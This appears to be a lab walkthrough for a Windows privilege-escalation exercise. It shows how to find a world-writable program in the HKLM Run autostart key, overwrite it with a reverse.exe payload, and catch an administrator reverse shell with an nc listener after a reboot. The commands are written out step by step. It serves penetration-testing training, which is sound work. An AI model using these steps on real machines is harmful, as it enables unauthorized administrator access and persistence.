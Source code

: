 # 🐾 Task 7: Registry - Autostart
---

## 📜 Task Description
In this task, we will exploit a vulnerability in the Windows Registry autostart mechanism. We will examine the `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` registry key to find an executable file that is writable by all users. Then, we will replace it with our `reverse.exe` file and gain a reverse shell with administrator privileges.

---

## 🔍 Step 1: Checking Autostart Programs in the Registry
First, query the `Run` registry key to find executables that start automatically. Execute the following command:  
`reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

### 📋 Expected Output
- Confirm that you see executables listed under the autostart section.  
![image](https://github.com/user-attachments/assets/53805b6e-dc99-40a1-963f-88bd85a782ae)

---

## 🔑 Step 2: Checking Permissions on the Executable
Use the `accesschk.exe` tool to verify write permissions on one of the executables listed in the autostart section. Execute the following command:  
`C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`

### 📋 Expected Output
- Confirm that the file `program.exe` is writable by all users.  
![image](https://github.com/user-attachments/assets/7591fc76-7226-4a3f-99d3-67d9bc4e2f6c)

---

## 📝 Step 3: Replacing the Executable
Replace the executable `program.exe` with your previously created `reverse.exe`. Run the following command:  
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" -Force`

### 📋 Expected Output
- Confirm that the file has been successfully replaced with `reverse.exe`.

---

## 🎧 Step 4: Setting Up the Listener
Before restarting the virtual machine, ensure you have a listener running on Kali. Use the following command to start the listener:  
`nc -lvnp 53`

---

## 🚀 Step 5: Restarting the Machine
Now, restart the Windows VM to trigger the execution of the `reverse.exe` file on startup. After rebooting, a new RDP session will initiate the reverse shell with administrator privileges.

### 📋 Expected Output
- Confirm that you have received a reverse shell with administrator privileges.  
![image](https://github.com/user-attachments/assets/a146981e-2c65-47b9-a2ed-3f254e301997)

---

## 🎉 Congratulations!
You have successfully exploited the registry autostart mechanism to gain a reverse shell with administrator privileges! 🎊

---

## 📌 Notes
- Ensure you understand all the steps and their implications.
- In a real-world scenario, you might have to wait for an administrator to log in to trigger the reverse shell.
- Use this knowledge responsibly and only within authorized penetration testing engagements.

